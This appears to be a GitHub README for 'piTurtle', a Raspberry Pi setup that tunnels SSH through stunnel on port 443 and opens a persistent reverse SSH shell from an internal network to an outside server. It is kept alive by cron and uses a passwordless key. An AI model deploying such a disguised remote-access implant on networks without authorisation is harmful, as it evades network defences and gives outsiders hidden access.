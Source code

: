 # piTurtle
automatic open remote shell on an internal network with raspberryPI

# need
 - stunnel 
 - ssh 
 - vps or server on internet
 - raspberry
 
# subject
Create a stunnel connection (ssl 443) to the a server on internet and the open a remote shell inside the stunnel connection with SSH.

# stunnel
install stunnel4 on both rpi and server
```# sudo apt-get update
sudo apt-get install stunnel4
```

##### Configure server side (server)  

enable service  
```
sudo nano /etc/default/stunnel4
```
> ENABLE=1


Generate certificat
```
cd /etc/stunnel
openssl genrsa -out KeyServer.key 2048
openssl req -new -key KeyServer.key -out certif.csr
openssl x509 -req -days 3650 -in certif.csr -signkey KeyServer.key -out certserver.crt
cat KeyServer.key certserver.crt > server.pem
```

configure stunnel.conf
```
mv stunnel.conf stunnel.conf.bkp
nano stunnel.conf
```
>; It is recommended to drop root privileges if stunnel is started by root  
>chroot = /var/lib/stunnel4/  
>setuid = stunnel4  
>setgid = stunnel4  
>  
>; PID file is created inside the chroot jail (if enabled)  
>pid = /stunnel.pid  
>; pid = /stunnel.pid  
>  
>; Debugging stuff (may be useful for troubleshooting)  
>foreground = yes  
>debug = debug  
>output = /var/log/stunnel4/stunnel.log  
>  
>; TLS front-end to a web server  
>[https]  
>accept  = 443  
>connect = 22  
>cert=/etc/stunnel/server.pem  
>key=/etc/stunnel/keyServer.key  

will create a HTTPS service on port 443  

view of the chroot   
>cd /var/lib/stunnel4/  
>/var/lib/stunnel4$ tree  
>.  
>├── stunnel.pid  
>└── var  
>    ├── log  
>    │   └── stunnel4  
>    │       └── stunnel.log  
>    └── run  
>  
>4 directories, 2 files  


Start stunnel on boot service  
```
chkconfig stunnel4 on  
/etc/init.d/stunnel4 start  
```

check port (normally 443 is up)
```
sudo netstat -tanlp | grep stunnel
```


##### Configure rpi side (client)  

upload server.pem on /etc/stunnel/  

```
sudo nano /etc/stunnel/stunnel.conf
```
>debug = info  
>output = /var/log/stunnel.log  
>  
>cert = /etc/stunnel/server.pem  
>pid = /var/run/stunnel.pid  
>client = yes  
>  
>[ssh]  
>accept = 127.0.0.1:2222  
>connect = <Ip or domain>:443  

Start stunnel  
```
stunnel /etc/stunnel/stunnel.conf
```

Check if stunnel is up  
```
sudo netstat -tanlp | grep stunnel  
```

now SSH is listen on 2222 and go up stunnel  


# Create reverse shell \o/

##### On the rpi
Create a user and a ssh key on RPI  
```
useradd remote  
cd /home/remote/.ssh/  
ssh-keygen -f remote -P ""  
```

2 files is created (private (remote) key stay on the RPI and remote.pub to DL on the server)

##### On the server 
```
useradd remote  
```
copy remote.pub in /home/remote/.ssh/ 

Edit the ssh conf to allow authentification with key  (/etc/ssh/sshd_config)
>PasswordAuthentication no  
>AuthenticationMethods publickey  


##### On the rpi
start ssh reverse shell
```
ssh -i /home/remote/.ssh/remote -R 2201:localhost:22 -p 2222 remote@localhost -f -N
```

and normally on the server a port is open localhost:2201 and you can ssh to it  

>netstat -tanlp | grep 2201  
>tcp        0      0 127.0.0.1:2201          0.0.0.0:*               LISTEN      >24227/sshd: remote  



##### my crontab
>*/2 * * * * /opt/remoteShell/check.sh >> /opt/remoteShell/cron.log   


